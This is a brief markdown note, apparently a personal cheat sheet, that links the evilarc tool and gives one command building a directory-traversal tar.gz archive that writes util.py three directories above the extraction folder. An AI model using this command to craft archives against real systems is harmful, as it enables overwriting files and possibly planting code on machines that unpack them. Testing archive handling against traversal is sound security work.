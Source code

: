 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/ptoomey3/evilarc


Create a directory traversal archive 
````bash
./evilarc.py -f mal.tar.gz -d 3 -o unix util.py
````
